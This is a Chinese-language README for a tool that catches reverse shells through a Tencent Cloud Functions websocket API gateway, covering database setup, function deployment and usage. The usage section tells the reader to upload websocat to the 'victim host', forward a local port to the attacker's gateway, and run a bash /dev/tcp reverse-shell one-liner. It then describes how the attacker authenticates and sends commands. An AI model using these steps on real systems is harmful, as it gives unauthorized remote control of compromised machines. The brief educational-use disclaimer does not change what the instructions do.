





# ReverseShell
通过云函数的 websocket API 网关实现接收反弹 Shell 的功能。

## 项目配置

### 数据库配置
本项目需要一个允许外部连接的 MySQL 数据库。数据库配置语句如下：
```sql
create database SCF;
use SCF;
create table Connections (
    ConnectionID varchar(128) NOT NULL,
    Date datetime,
    is_user tinyint
)
```

修改 src 文件夹内所有文件中的如下变量
```
db_host = 数据库 host
db_port = 数据库端口
db_user = 数据库用户
db_pass = 数据库密码

push_back_host = 等后续配置 API 网关后填写
```

### 函数配置
1. 参照 [HTTP 代理配置](https://github.com/shimmeris/SCFProxy/tree/main/HTTP) 新建三个自定义函数，分别命名为 register, forward, delete。
2. 进入 [API 网关配置](https://console.cloud.tencent.com/apigateway/service)，新建如下配置服务



3. 新建 API，前端类型选择 WS，其余默认，进入下一步
4. 开启设置注册函数、清理函数。后端类型，函数，后端超时时间分别配置为如下：



5. 点击立即完成，发布服务
6. 点击生成的 api，进入信息展示页面获取如下信息，将推送地址填入文件中的 `push_back_host` 变量。



7. 修改 transmission.py 中的 `PASSWORD` 变量，该变量将用于客户端连接 ws 后将连接认证为用户。
7. 分别复制三个文件的内容到对应的云函数中并部署。

## 使用方式
需要借助 [websocat](https://github.com/vi/websocat)。

1. 上传 websocat（或远程下载）到受害主机
2. 执行 `websocat -E --text tcp-l:127.0.0.1:12345 ws://apigatway` 转发端口
3. 反弹 shell 到本地端口 `bash -i >& /dev/tcp/127.0.0.1/12345 0>&1`（2、3 两步也可利用 & 合并成一条命令）



4. 攻击者连接 ws://apigate，输入 auth PASSWORD 认证为用户，之后正常发送命令即可。


ws 连接后可执行的命令：
```shell
auth PASSWORD 将当前连接认证为用户，只有用户能接收未认证连接发送的信息
close 关闭当前连接
closeall 关闭目前存在的所有连接
```

## 免责申明
此工具仅供测试和教育使用，请勿用于非法目的。

